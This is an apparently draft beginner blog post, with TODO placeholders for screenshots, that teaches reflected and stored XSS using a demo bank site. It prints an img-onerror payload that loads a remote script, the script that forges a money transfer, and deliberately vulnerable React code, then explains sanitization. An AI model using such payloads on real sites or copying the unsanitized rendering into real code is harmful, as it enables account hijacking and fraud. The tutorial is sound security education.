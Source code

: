 ```yaml
---
title: "Web Security 101: Cross-Site Scripting (XSS) Attacks"
date: "2020-06-01T12:00:00.000Z"
template: "post"
draft: false
slug: "/blog/xss/"
img:
category: "Security"
tags:
  - "Security"
  - "Web Development"
  - "For Beginners"
  - "Demo"
  - "Javascript"
description: A hands-on beginner's guide to what XSS attacks are and how to prevent them.
prev: "/blog/csrf/"
next: "/blog/properly-size-images/"
---
```


Cross-Site Scripting (XSS) vulnerabilities are one of the most dangerous web security holes that exist. In this post, we'll see an **interactive demo of XSS** and learn how to prevent it.

This is the second post in my [Web Security 101](/tag/security/) series. If you've read my introduction to CSRF, some of the preamble below might look familiar... feel free to skip ahead a bit.

## Setting the Scene

Picture this: you're a responsible, hardworking person. You've saved up your money over the years at **Definitely Secure Bank®**.

![The Definitely Secure Bank logo.](./media-link/csrf-post/dsb.svg)

You love Definitely Secure Bank - they've always been good to you, plus they make it easy to transfer money and more via their website. Sweet, right?

To get in character, let's have you open up your online banking portal and look around. <b><a href="https://dsb.victorzhou.com/login" target="_blank">Click here to open Definitely Secure Bank's website</a></b> and login. Use **any username** and **any password** you want (don't worry - it's _definitely_ secure). Keep that tab open for the rest of this post.

Once you've logged in, you should see a landing page that looks something like this:

TODO

Click the **"Try searching for the answer"** link. That will bring you to the Search page. Try searching for anything:

TODO

Interesting.

## One Fateful Day...

...you get an email titled: **FREE 🎁 iPhone giveaway!!!**

You open the email and click the link: **[Claim your free iPhone](
https://dsb.victorzhou.com/search?q=%3Cimg%20src%3D%22%23%22%20onerror%3D%22const%20a%3Ddocument.createElement(%27script%27)%3Ba.src%3D%27http%3A%2F%2Flocalhost%3A8000%2Fxss-demo.js%27%3Bdocument.body.appendChild(a)%3B%22%20%2F%3E)**.

> Yes, I actually want you to click this link for the purposes of the demo.

Assuming you were logged in to Definitely Secure Bank (DSB), you should see something like this:

TODO

It's a little weird that it took you to your bank's website, but it just seems like a broken link, right? Nothing to worry about?

Click back to your DSB homepage, and you should see a new transfer:

TODO

How did that happen?!

## How It Happened

The key vulnerability here is that the DSB search results page **echoes the search query without sanitizing it**. Remember this screenshot from earlier?

TODO

Notice how the search query ("TODO") is echoed back onto the page: _Unfortunately, no results were found for **TODO**_. What if our search query was a valid HTML string, like `html›<a href="https://victorzhou.com">test</a>`?

TODO

Woah. That seems insecure, doesn't it?

Let's look at that specific attack from earlier. The attacker's link linked to a URL of this format:

https://dsb.victorzhou.com/search?q=SEARCH_QUERY_HERE

Aha! That's a link to the DSB search results page. The value of `SEARCH_QUERY_HERE` was the following string:

```
%3Cimg%20src%3D%22%23%22%20onerror%3D%22const%20a%3Ddocument.createElement(%27script%27)%3Ba.src%3D%27http%3A%2F%2Flocalhost%3A8000%2Fxss-demo.js%27%3Bdocument.body.appendChild(a)%3B%22%20%2F%3E
```

Looks like nonsense, right? Turns out, when you [URL decode](https://www.quora.com/What-is-URL-encoding-and-decoding) this, you get:

```
<img src="#" onerror="const a=document.createElement('script');a.src='http://localhost:8000/xss-demo.js';document.body.appendChild(a);" />
```

Seems a little more familiar now, doesn't it? Let me syntax highlight that for you:

```html
<img src="#" onerror="const a=document.createElement('script');a.src='http://localhost:8000/xss-demo.js';document.body.appendChild(a);" />
```

It's an image tag sourced from `"#"`, which errors and runs the Javascript code contained in the `onerror`! Here's what the `onerror` code looks like after prettify-ing it:

```js
const a = document.createElement('script');
a.src = 'https://victorzhou.com/xss-demo.js';
document.body.appendChild(a);
```

This code downloads the `xss-demo.js` script (which could be _anything_) and executes it. Here's what it contained in our case:

```js
// Header: xss-demo.js
const body = new URLSearchParams('amount=5000&description=Gotcha!&to=XSS-Attackers');
fetch('/transfer', {
  body,
  method: 'post',
});
```
<figcaption>Uses the <a href="https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API" target="_blank" rel="noopener noreferrer">Fetch API</a></figcaption>.

This sends an [HTTP POST](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST) request to the Definitely Secure Bank's (DSB) `/transfer` endpoint with these parameters:

| Parameter | Value |
| --- | --- |
| `amount` | 5000 |
| `description` | Gotcha! |
| `to` | XSS-Attackers |

This creates a transfer request that **is identical to a legitimate transfer request** you would've created yourself. From DSB's perspective, there's no difference between the request created from `xss-demo.js` and one you would've made yourself. That's why XSS vulnerabilities are so dangerous - **the attacker can completely impersonate you** and do anything you could've done.

To summarize how clicking a spam link ended with you losing $5000:
- The link brought you to DSB's search results page, which reflects the search query.
- The search query was actually HTML code that caused your browser to download and execute an arbitrary script.
- That script sent a legitimate transfer request to the DSB server.
- The DSB server processed the request, since it saw nothing wrong.

There you have it: Cross-Site Scripting.

## Reflected vs. Stored XSS

The example above was an instance of **reflected XSS**, because it depended on DSB immediately reflecting a user input (the search query) back onto the page.

The other common type of XSS is **stored XSS** (or persistent XSS). This happens when the malicious code (usually an injected script, like in our example) is **stored on the target site's servers**. For example, allowing users to leave comments and storing those comments without sanitizing them would be a stored XSS vulnerability. An attacker could leave a malicious comment that injects a script, and **anyone who views that comment would be affected**.

## Do CSRF tokens protect against XSS?

You may have noticed that the `/transfer` endpoint has no [Cross-Site Request Forgery](/blog/csrf/) (CSRF) protection, which typically includes requiring a CSRF token. This was on purpose because it's used in my [CSRF demo](/blog/csrf), which I recommend reading if you don't know what CSRF is.

To answer the question: **CSRF protection does nothing to prevent XSS** because XSS attacks don't originate from a different site, whereas CSRF attacks do. When done correctly, a request created by an XSS attack looks completely legitimate.

## How _do_ you prevent XSS?

It's simple: **sanitize user inputs**. Anytime you're inserting untrusted (user-generated) data onto your webpage, clean it first.

_How_ to do this cleaning is a bit outside of the scope of this post, but the good news is that it often comes for free. For example, [React](https://reactjs.org/), which the DSB site is built with, uses [JSX](https://reactjs.org/docs/introducing-jsx.html) syntax, which automatically [escapes values before rendering](https://reactjs.org/docs/introducing-jsx.html#jsx-prevents-injection-attacks) them, helping to prevent XSS attacks. To make the DSB search page vulnerable to XSS, I had to do this:

```jsx
<p>
  Unfortunately, no results were found for{' '}
  <span dangerouslySetInnerHTML={{ __html: query }} />.
</p>
```
<figcaption>
  DSB is open-source: you can see this code on <a href="https://github.com/vzhou842/definitely-secure-bank/blob/master/src/Search.js#L47-L50" target="_blank" rel="noopener noreferrer">Github</a>.
</figcaption>

Yup. It's named `dangerouslySetInnerHTML` for a reason.
